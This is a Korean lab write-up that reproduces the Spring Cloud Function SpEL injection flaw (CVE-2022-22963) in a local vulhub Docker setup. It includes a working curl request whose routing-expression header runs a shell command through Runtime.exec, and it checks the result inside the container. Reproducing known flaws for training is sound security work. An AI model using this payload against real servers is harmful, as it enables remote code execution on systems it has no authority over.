## Spring Cloud Function SpEL Code Injection (CVE-2022-22963)
> 화이트햇스쿨 3기 21반 이가영

## 요약

CVE-2022-22963은 Spring Cloud Function 3.1.6 이하 및 3.2.2 이하 버전에서 발생하는 **원격 코드 실행(RCE)** 취약점이다.  
공격자는 **`spring.cloud.function.routing-expression`** HTTP 헤더에 Java 표현식을 삽입하여 서버 측에서 원격으로 임의의 코드를 실행할 수 있다.


### ✔️ 취약점 원인

- Spring Cloud Function은 요청을 라우팅할 때,  
  `spring.cloud.function.routing-expression`이라는 헤더를 읽어 SpEL(Spring Expression Language)을 해석함
- 이 필드에 Java의 `Runtime.getRuntime().exec()` 호출 같은 명령이 들어오면,  
  **해당 명령어를 실행시켜버림** (보안 필터링 없음)
- 즉, 공격자는 **HTTP 요청만으로 서버 내에서 임의 명령어를 실행할 수 있음**

### ✔️ 공격 흐름

1. 공격자가 POST 요청에 악성 헤더 삽입  
2. Spring 서버가 해당 SpEL을 파싱하여 함수로 인식  
3. Java `Runtime.exec()` 호출됨 → 명령어 실행  
4. 명령어 실행 결과는 로그나 파일로 확인 가능

---

## 환경 구성

### 1. 취약한 Docker 환경 다운로드 (sparse checkout)

```bash
mkdir vulhub-cve
cd vulhub-cve
git init
git remote add origin https://github.com/vulhub/vulhub.git
git config core.sparseCheckout true
echo "spring/CVE-2022-22963" >> .git/info/sparse-checkout
git pull origin master
cd spring/CVE-2022-22963
```

### 2. 취약점 재현
burp suite를 이용하는 대신, curl 명령어를 통해 취약점을 재현하였다. 참고 보고서에서 한 파일 생성에 더하여 id 명령어의 내용을 파일로 생성하였다.

```bash
curl -X POST http://localhost:8080/functionRouter \
  -H "spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec(new String[]{\"sh\", \"-c\", \"id > /tmp/id.txt\"})" \
  -H "Content-Type: text/plain" \
  --data 'test'
```

### 3. 확인
<img width="1466" alt="image" src="https://github.com/user-attachments/assets/f811c6c4-c346-4254-9d2b-a3086f9f2a8c" />

```bash
docker exec -it cve-2022-22963-spring-1 bash
cat /tmp/id.txt
```

sh -c "id > /tmp/id.txt" 명령어가 실제로 실행되었음을 알 수 있다.

## 출처
> https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22963
